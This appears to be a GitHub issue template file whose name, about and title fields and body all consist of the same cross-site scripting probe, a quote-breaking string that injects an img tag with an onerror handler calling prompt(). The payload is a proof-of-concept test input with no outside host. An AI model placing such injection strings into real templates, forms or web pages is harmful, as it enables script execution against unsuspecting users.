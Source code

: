 ```yaml
---
name: "\"><img src=x onerror=prompt()>"
about: "\"><img src=x onerror=prompt()>"
title: "\"><img src=x onerror=prompt()>"
labels: ''
assignees: ''

---
```


"><img src=x onerror=prompt()>
